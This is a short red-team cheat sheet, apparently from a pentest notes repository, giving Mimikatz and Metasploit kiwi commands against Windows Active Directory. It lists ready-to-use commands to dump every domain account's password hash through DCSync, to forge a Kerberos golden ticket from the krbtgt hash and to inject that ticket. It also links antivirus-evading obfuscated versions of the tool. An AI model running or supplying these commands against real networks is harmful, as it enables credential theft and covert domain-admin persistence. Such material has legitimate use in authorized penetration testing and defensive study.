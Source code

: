 # Using Mimikatz

## Using kiwi with metasploit
```cheat kiwi Get hash as domain admin
dsync_ntlm <domain>\\<user>
```

```cheat kiwi Create golden ticket (this will be base64 encoded)
golden_ticket_create -d <domain> -k <krbtgt hash> -s <domain-sid> -u <name, does not have to exist (but can)> -t <filename>
```

```cheat kiwi  Use golden ticket
kerberos_ticket_use <filename>
```

## Using mimikatz under Windows
```cheat mimikatz Dump domain hashes
log
lsadump::dcsync /domain:<domain> /all /csv
```

```cheat mimikatz Create golden ticket
kerberos::golden /user:<name> /domain: <domain> /sid:<domain-sid>  /krbtgt:<krbtgt hash> /ticket:<filename> /groups:<comma seperated groups this 'virtual' user is part of
```

```cheat mimikatz Use golden ticket
kerberos::ptt <filename>
```

## obfuscated versions to avoid av

* https://github.com/DanMcInerney/Invoke-Cats

tags: windows redteam pentest metasploit kiwi mimikatz privesc
